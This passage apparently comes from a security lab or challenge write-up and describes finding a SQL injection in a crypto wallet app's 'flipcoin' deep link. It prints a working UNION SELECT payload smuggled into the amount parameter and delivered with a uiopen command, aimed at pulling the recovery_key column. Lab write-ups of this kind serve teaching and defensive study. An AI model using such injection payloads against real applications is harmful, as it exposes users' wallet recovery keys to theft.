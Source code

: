 ![sql 1.png](/assets/MHL/sql_1.png)

Great! The second wallet address was added in the request. Now we know that we have a SQL injection we know can get the `recovery_key` column. After some trial and error, the union technique worked with:

```bash
# Payload: UNION SELECT 0,'ItsFadinG',3,4,'a' LIMIT 1;--
uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0003%20UNION%20SELECT%200,'ItsFadinG',3,4,'a'%20LIMIT%201;--"
```

![image.png](/assets/MHL/image%201.png)
